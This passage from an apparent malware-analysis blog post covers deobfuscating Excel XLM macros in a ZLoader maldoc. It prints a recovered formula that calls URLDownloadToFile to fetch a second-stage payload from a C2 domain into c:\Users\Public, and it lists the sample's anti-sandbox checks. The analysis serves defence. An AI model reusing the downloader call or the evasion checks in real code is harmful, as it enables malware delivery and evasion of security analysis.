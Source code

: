 There are two methods for deobfuscation, the first of which is what Josh Stroschein suggested which is to copy the column values out, strip out the non-numeric characters, and plug them into a [CyberChef recipe](https://gchq.github.io/CyberChef/#recipe=From_Charcode('Line%20feed',10)). 

While this works fine for the shorter strings, the maldoc author threw in a few cells of useless guff in there to taint the output - this is an issue where you're trying to figure out the URL or domain name you need to block to prevent C2 comms, and you can't be sure the results aren't corrupted.

For example, the concatenated contents of column F deobfuscates to: `=CFAL("urGmon",URLDfonloadfoFile","JCCJJ",0"htUtpsE//ehelAeecrce.xyz/fbb3","c:\Uers\Publc\bmjnef.html"0,0)` 

In this case you'd have to go back to the formula to try and identify the dud values you need to strip to get an accurate URL. Ugh.

The much simpler technique I picked up from [DissectMalware](https://www.youtube.com/channel/UClshOnMPENbBSAG3KNRnlHw) was to interrupt execution of the macro by replacing the WORKBOOK.HIDE function with HALT(). This lets the macro run and deobfuscate the code, without finishing the chain of execution - kind of like setting a break point in a debugger:

![deobfuscated](https://opalsec.github.io/assets/images/xlm_macros_2/deobfuscated.png)

Immediately I've got actionable information based on the deobfuscated strings. I can:
1. Block `https://ethelenecrace.xyz/fbb3` to prevent 2nd stage infections anywhere else on the network;
2. Create detections for html files with high-entropy filenames being written to `c:\Users\Public\` to potentially identify other variants that drop the same payload, but via a different C2.

### Ugh, MORE Anti-Analysis Counter-Measures

The first five strings are interesting, as they're additional anti-sandbox measures:
1. Attempts to detect abnormally small screen width < 770 and height < 381;
2. Looks for a mouse being present - if there isn't one, it's likely a sandbox;
3. Checks if the computer can play a sound - if it can't, it's likely a barebones sandbox;
4. Verifies the environment is a Windows environment.

## Attribution

Unfortunately initial checks on this sample's C2 from regular sources didn't turn up anything - it's not present on URLHaus, and VT has it flagged generically as Malware by five vendors:

![VT.png](https://opalsec.github.io/assets/images/xlm_macros_2/VT.png)

That said, a hail-mary Google search for the C2 string shows it was identified by a reliable source on Twitter as being part of a ZLoader campaign: 

![twitter.png](https://opalsec.github.io/assets/images/xlm_macros_2/twitter.png)

\#TeamworkMakesTheDreamWork